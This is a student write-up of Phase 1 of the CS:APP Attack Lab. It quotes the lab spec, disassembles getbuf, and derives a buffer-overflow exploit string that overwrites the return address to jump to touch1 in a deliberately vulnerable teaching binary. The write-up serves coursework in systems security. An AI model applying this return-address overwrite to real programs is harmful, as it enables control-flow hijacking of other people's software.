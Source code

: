 
# Phase 1

## Attack Lab Spec

For Phase 1, you will not inject new code. Instead, your exploit string will redirect the program to execute an existing procedure.
Function getbuf is called within CTARGET by a function test having the following C code:  
```
void test()          
{
  int val;
  val = getbuf();
  printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
When `getbuf` executes its return statement (line 5 of `getbuf`), the program ordinarily resumes execution
within function `test` (at line 5 of this function). We want to change this behavior. Within the file `ctarget`,
there is code for a function `touch1` having the following C representation:  
```
void touch1()
{
  vlevel = 1; /* Part of validation protocol */
  printf("Touch1!: You called touch1()\n"); 
  validate(1);
  exit(0);
}
```
Your task is to get `CTARGET` to execute the code for `touch1` when `getbuf` executes its return statement,
rather than returning to `test`. Note that your exploit string may also corrupt parts of the stack not directly
related to this stage, but this will not cause a problem, since `touch1` causes the program to exit directly.

**Some Advice**:  
• All the information you need to devise your exploit string for this level can be determined by examining a disassembled version of `CTARGET`. Use `objdump -d` to get this dissembled version.  
• The idea is to position a byte representation of the starting address for `touch1` so that the ret instruction at the end of the code for `getbuf` will transfer control to `touch1`.  
• Be careful about byte ordering.  
• You might want to use GDB to step the program through the last few instructions of `getbuf` to make sure it is doing the right thing.  
• The placement of `buf` within the stack frame for `getbuf` depends on the value of compile-time constant BUFFER_SIZE, as well the allocation strategy used by GCC. You will need to examine the disassembled code to determine its position.  

## Analysis

It's clear that we need to get to `touch1` from `getbuf`. Looking at `getbuf` in cobjectdum we see the following code:  
```
00000000004017be <getbuf>:
4017be:	48 83 ec 18          	sub    $0x18,%rsp
4017c2:	48 89 e7             	mov    %rsp,%rdi
4017c5:	e8 30 02 00 00       	callq  4019fa <Gets>
4017ca:	b8 01 00 00 00       	mov    $0x1,%eax
4017cf:	48 83 c4 18          	add    $0x18,%rsp
4017d3:	c3                   	retq
```
Looking at the code, we see the following things happen. We put 0x18 bytes of storage on the stack, and then put our stack pointer into rdi. The function `Gets` is then called which we can assume
inputs whatever we enter into the stack. This pens up the opportunity for code injection. For phase 1, this is simply just changing the return address, which is always the last thing on the stack when
a function exits. We can confirm this by considering that we add 0x18 back to the rsp and then retq, which pops the value held at rsp and then goes to it. Therefore, if we can inject 0x18 bytes of random values and then the address of `touch1` when `retq` attempts to return to the address pointed to by rsp, it'll be our address. Looking again through the object dumb for `touch1` we see  
`00000000004017d4 <touch1>`  
which tells us that our touch1 function is at address 0x4017d4. We remember that x86-64 operates on little endian, and thus in our string the address must be formatted correctly.

## Final Solution

Knowing that our `getbuf` requires 0x18 or 1 * 16 + 8 * 1 = 24 bytes of input and then our return address, we can put the two together to yield the final injection string:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 d4 17 40 00`  
